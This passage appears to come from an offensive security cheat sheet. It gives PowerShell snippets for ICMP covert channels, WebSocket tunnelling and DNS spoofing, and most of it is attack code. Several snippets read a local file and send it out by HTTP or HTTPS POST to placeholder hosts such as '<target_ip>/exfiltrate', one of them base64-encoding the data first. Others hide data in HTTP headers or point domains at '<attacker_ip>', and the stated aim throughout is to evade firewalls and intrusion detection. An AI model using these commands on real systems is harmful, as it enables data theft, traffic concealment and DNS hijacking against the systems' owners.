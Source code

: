 #### ICMP Tunneling (PowerShell)
Create covert communication channels over ICMP to evade firewall rules and IDS/IPS systems that do not inspect ICMP packets.

- PowerShell ICMP Covert Channel:
	```powershell
	$icmpSocket = New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Raw, [System.Net.Sockets.ProtocolType]::Icmp)
	$icmpPacket = [System.Text.Encoding]::ASCII.GetBytes("Hello ICMP")
	$icmpSocket.Send($icmpPacket)
	```
- Covert Channel via ICMP (Ping Requests):
```powershell
$data = "Hidden Command" 
$pingRequest = Test-Connection -ComputerName <target_ip> -BufferSize 32 -Count 1 -AsJob
```

#### HTTP/HTTPS Traffic Obfuscation
```powershell
$data = Get-Content C:\path\to\data.txt
Invoke-RestMethod -Uri http://<target_ip>/exfiltrate -Method Post -Body $data
```
- Exfiltrate Data in Encrypted Form (HTTPS POST):
```powershell
$secureData = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-Content C:\path\to\data.txt)))
Invoke-WebRequest -Uri https://<target_ip>/upload -Method POST -Body $secureData
```
- Hide Data in HTTP Headers (Covert Channel):
```powershell
$webclient = New-Object System.Net.WebClient
$webclient.Headers.Add("X-Covert-Data", "Sensitive Information")
$webclient.DownloadFile("http://<target_ip>/index.html", "C:\Temp\index.html")
```
#### WebSocket Tunneling
Use WebSocket connections, which often bypass firewalls and security filters, to tunnel traffic.

- Create WebSocket Tunnel for PowerShell:
	```powershell
	$ws = New-Object System.Net.WebSockets.ClientWebSocket
	$ws.ConnectAsync("wss://<target_ip>:<target_port>")
	```

# DNS Evasion and Manipulation

#### DNS Spoofing (PowerShell)
Modify or spoof DNS responses to redirect legitimate traffic to malicious servers.

- Spoof DNS Resolution for Network-Based Evasion:
```powershell
Add-DnsClientNrptRule -Namespace ".malicious.com" -NameServers "<attacker_ip>"
```
- Redirect DNS Requests for Specific Domains:
```powershell
Add-DnsServerResourceRecordA -Name "<hostname>" -ZoneName "<target_domain>" -IPv4Address "<attacker_ip>"
```
